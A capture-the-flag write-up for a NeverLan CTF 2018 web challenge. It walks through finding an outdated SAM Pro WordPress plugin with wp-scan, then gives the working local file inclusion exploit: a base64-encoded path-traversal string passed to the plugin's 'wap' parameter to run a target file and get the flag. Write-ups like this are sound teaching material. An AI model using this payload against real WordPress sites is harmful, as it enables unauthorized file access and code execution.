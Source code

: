 # NeverLan CTF 2018: What the LFI?

**Category:** Web Exploitation
**Points:** 200

**Description:**

>There is a file located at /var/www/blah.php Get that file to execute to retrieve the flag.

>http://54.201.224.15:14099


## Write-up

Ok, so we looking for some LFI.

We have some links `?feed=rss2 / ?p=1 / ?m=201802` but there is no LFI..

As we see this can be site on wordpress engine:
>\<meta name="generator" content="WordPress 4.9.4" /\>

So we can try wp-scan...and there is our LFI! We have outdated plugin here.

    [!] Title: SAM Pro (Free Edition) <= 1.9.6.67 - Local File Inclusion (LFI)
      Reference: https://wpvulndb.com/vulnerabilities/8647
      Reference: https://www.pluginvulnerabilities.com/2016/10/28/local-file-inclusion-lfi-vulnerability-in-sam-pro-free-edition/
      Reference: https://plugins.trac.wordpress.org/changeset/1526624/sam-pro-free

Let's do this.

**Step 1:**

`echo -n 'test.php' | base64`

`http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=dGVzdC5waHA=`

>No such file or directory in /var/www/html/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php

**Step 2:**

Let's craft good directory.

`echo -n '../../../../blah.php' | base64`

`http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=Li4vLi4vLi4vLi4vYmxhaC5waHA=`

That's all, the flag is `flag{dont_include_files_derived_from_user_input_kthx_bai}`.
